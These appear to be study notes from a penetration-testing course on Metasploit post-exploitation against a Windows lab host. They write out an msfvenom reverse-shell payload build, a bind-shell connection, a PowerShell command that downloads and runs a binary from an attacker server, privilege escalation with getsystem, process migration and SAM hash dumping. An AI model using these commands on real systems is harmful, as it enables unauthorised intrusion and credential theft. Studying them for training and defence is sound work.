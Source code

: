 # Performing Post-Exploitation with Metasploit

### Core Meterpreter Post-Exploitation Features

Example:
`Let's assume we already gained an initial foothold on the target system and deployed a bind shell as way of accessing the system.`
- Create a Windows rev shell exe binary
	- ```msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.196 LPORT=443 -f exe -o met.exe```
- Launch mulit/handler and set payload and options
	- ```set payload windows/x64/meterpreter_reverse_https```
	- `set LPORT 443`
	- `run`
- start Py server to serve **met.exe**.
- Connect to bind shell
	- ```nc 192.168.249.223 4444```
- Download **met.exe**
	- `powershell`
	- ```iwr -uri http://192.168.45.205:8000/binary.exe -Outfile binary.exe```
	- `.\met.exe`
- Start exploring post-exploitation commands and features.
	- **idletime**
		- It displays the time for which a user has been idle.
		- first commands as it indicates if the target machine is currently in use or not.
	- **getsystem**
		- Attempts to automatically elevate our permissions to _NT AUTHORITY\SYSTEM_.
				- uses various techniques using named pipe impersonation and token duplication
				- attempting to leverage _SeImpersonatePrivilege_[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/performing-post-exploitation-with-metasploit/core-meterpreter-post-exploitation-features#fn1) and _SeDebugPrivilege_.
					- by using _Named Pipe Impersonation (PrintSpooler variant)_
	- **shell**
		- interactive shell
		- `whoami /priv`
			- Ex. user _luiza_ has _SeImpersonatePrivilege_ assigned
		- Ex:
			- **getuid**
			- **getsystem**
			- **getuid** 
	- **migrate**
		- move the execution of our Meterpreter payload to a different process
			- so process doesnt get close or removed 
		- can only migrate same (or lower) integrity and privilege level.
		- Ex:
			- `ps`
			- `migrate 8052
			- `getuid` -> new user (meterpreter running in the context of new process)
	- **execute**
		- creates a new process by specifying a command or program.
		- Example: let's start a hidden Notepad process and migrate to it as user _offsec_
			- ```execute -H -f notepad```
				- -H = hidden process
				- -f = specify command or program
			- `migrate 2720`
				- migrating to the newly spawned process
	- **hashdump**
		- dumps the contents of the SAM database
	- **screenshare**
		- displays the target machine's desktop in real-time.
